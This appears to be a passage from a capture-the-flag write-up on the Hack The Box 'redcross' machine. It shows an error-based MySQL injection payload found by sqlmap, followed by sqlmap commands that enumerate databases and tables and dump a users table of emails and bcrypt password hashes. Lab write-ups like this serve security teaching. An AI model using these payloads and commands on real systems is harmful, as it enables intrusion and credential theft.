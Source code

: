 ```
sqlmap identified the following injection point(s) with a total of 469 HTTP(s) requests:
---
Parameter: o (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: o=2') AND (SELECT 6000 FROM(SELECT COUNT(*),CONCAT(0x71717a7671,(SELECT (ELT(6000=6000,1))),0x716a767871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- scxH&page=app
---
[14:33:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0
[14:33:52] [INFO] fetched data logged to text files under '/root/.sqlmap/output/intra.redcross.htb'

[*] shutting down at 14:33:52
```

Listing databases: `sqlmap -r login.req --risk=3 -p o --dbms=mysql --random-agent --delay=1.0 --technique=UE -T users --dbs`

```
[14:38:26] [INFO] used SQL query returns 2 entries
[14:38:27] [INFO] retrieved: information_schema
[14:38:28] [INFO] retrieved: redcross
available databases [2]:
[*] information_schema
[*] redcross
```

Listing tables from `redcross` DB: `sqlmap -r login.req --risk=3 -p o --dbms=mysql --random-agent --delay=1.0 --technique=UE -D redcross --tables`

```
[14:38:41] [INFO] retrieved: messages
[14:38:42] [INFO] retrieved: requests
[14:38:44] [INFO] retrieved: users
Database: redcross
[3 tables]
+----------+
| messages |
| requests |
| users    |
+----------+
```

Dumping list of users: `sqlmap -r login.req --risk=3 -p o --dbms=mysql --random-agent --delay=1.0 --technique=UE -D redcross -T users --dump`

```
Database: redcross
Table: users
[5 entries]
+----+------+------------------------------+----------+--------------------------------------------------------------+
| id | role | mail                         | username | password                                                     |
+----+------+------------------------------+----------+--------------------------------------------------------------+
| 1  | 0    | admin@redcross.htb           | admin    | $2y$10$z/d5GiwZuFqjY1jRiKIPzuPXKt0SthLOyU438ajqRBtrb7ZADpwq. |
| 2  | 1    | penelope@redcross.htb        | penelope | $2y$10$tY9Y955kyFB37GnW4xrC0.J.FzmkrQhxD..vKCQICvwOEgwfxqgAS |
| 3  | 1    | charles@redcross.htb         | charles  | $2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i |
| 4  | 100  | tricia.wanderloo@contoso.com | tricia   | $2y$10$Dnv/b2ZBca2O4cp0fsBbjeQ/0HnhvJ7WrC/ZN3K7QKqTa9SSKP6r. |
```